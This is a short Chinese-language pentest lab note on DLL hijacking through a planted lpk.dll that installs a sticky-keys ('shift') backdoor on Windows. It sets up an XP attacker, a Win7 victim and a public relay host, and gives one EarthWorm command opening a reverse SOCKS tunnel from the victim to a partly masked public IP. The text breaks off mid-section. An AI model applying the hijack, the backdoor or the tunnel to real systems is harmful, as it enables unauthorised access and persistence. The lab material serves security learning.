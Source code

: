 # dll劫持
原理：Windows执行exe的时候会调用lpk.dll这个库，默认调用exe所在目录下的lpk.dll然后就上传lpk.dll到含有会经常执行的exe所在的文件夹，然后当执行这个软件的时候就会运行上传的dll，然后这个dll就会上传shift后门，但是shift后门已经有点不适用了
- Windows从win8开始就默认使用网络级别的验证，就是说输入用户名密码不再是远程连接到目标主机后才输入，而是要再远程到对方系统之前就输入。关闭网络级别的身份验证是取消“仅允许运行使用网络级别身份验证的计算机连接（建议）”选项
- Windows目前对system目录的续写权限设置的比较高，想要写入shift后门就需要很高的权限，而shift后门就是为了提高权限。就冲突了

# 实验环境
- Windows xp 攻击机
- Windows7 被攻击机
- 公网主机 主要用于转发
> 不再一个网段，需要端口转发,实验环境因为这两套系统还有原来的客户端级别的验证方式,假设已经取得了一个shell,(本来想安装一个sqlserver来着 安装包实在太大了  安装上就没法睡觉了 )


# 代理先练一下代理
还是使用ew socks代理,再熟悉一下明天再用别的
```
公网上

win7上
./ew_for_Win.exe -s rssocks -d 45.*.*.190 -e 8889
Proxifie
```